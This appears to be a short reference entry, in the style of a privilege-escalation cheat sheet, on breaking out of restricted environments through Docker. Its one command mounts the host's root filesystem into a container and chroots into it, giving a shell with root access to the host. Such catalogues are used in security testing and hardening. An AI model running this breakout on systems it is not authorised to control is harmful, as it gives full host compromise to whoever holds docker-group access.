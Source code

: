 
If the user is privilege enough to run `docker`, i.e. being in the `docker` group, it can be used to break out from restricted environments by spawning an interactive system shell.

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```